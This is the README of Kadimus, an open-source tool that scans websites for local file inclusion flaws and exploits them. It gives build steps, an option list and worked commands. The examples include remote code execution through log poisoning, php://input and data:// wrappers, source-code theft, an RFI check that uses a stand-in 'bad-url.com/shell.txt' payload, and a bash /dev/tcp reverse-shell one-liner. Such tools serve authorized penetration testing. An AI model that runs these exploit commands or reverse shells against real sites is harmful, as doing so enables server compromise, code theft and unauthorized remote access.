 # Kadimus
LFI Scan &amp; Exploit Tool
--
Kadimus is a tool to check sites to lfi vulnerability , and also exploit it

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] Source code disclosure
- [x] Multi thread scanner
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for bind connections

## Compile:

```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
```

You can run the configure file:

```sh
./configure
```

Or follow this steps:

### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based
```sh
# apt-get install libcurl4-openssl-dev
```

* Mac OS X based
```sh
$ brew install openssl
```

### Installing libpcre:
* CentOS/Fedora

```sh
# yum install pcre-devel
```

* Debian based
```sh
# apt-get install libpcre3-dev
```

* Mac OS X based
```sh
$ brew install pcre
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based
```sh
# apt-get install libssh-dev
```

* Mac OS X based
```sh
$ brew install libssh
```

### And finally:
```sh
$ make
```
## Options:
```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            Single URI to scan
    -U, --url-list FILE         File contains URIs to scan
    -o, --output FILE           File to save output results
    --threads NUMBER            Number of threads (2..1000)

  Explotation:
    -t, --target STRING         Vulnerable Target to exploit
    --injec-at STRING           Parameter name to inject exploit
                                (only need with RCE data and source disclosure)

  RCE:
    -X, --rce-technique=TECH    LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    -r, --reverse-shell         Try spawn a reverse shell connection.
    -l, --listen NUMBER         port to listen

    -b, --bind-shell            Try connect to a bind-shell
    -i, --connect-to STRING     Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect
    --b-proxy STRING            IP/Hostname of socks5 proxy
    --b-port NUMBER             Port number of socks5 proxy

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -G, --get-source          Try get the source files using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)
```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U url_list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -t localhost/?pg=contact -G -f "index.php%00" -O local_output.php --inject-at pg
```
### Execute php code:
```
./kadimus -t localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -X input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -X auth -c 'ls -lah' --ssh-target localhost
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -t localhost/?pg=contact.php -Xdata --inject-at pg -r -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1' --retry-times 0
```
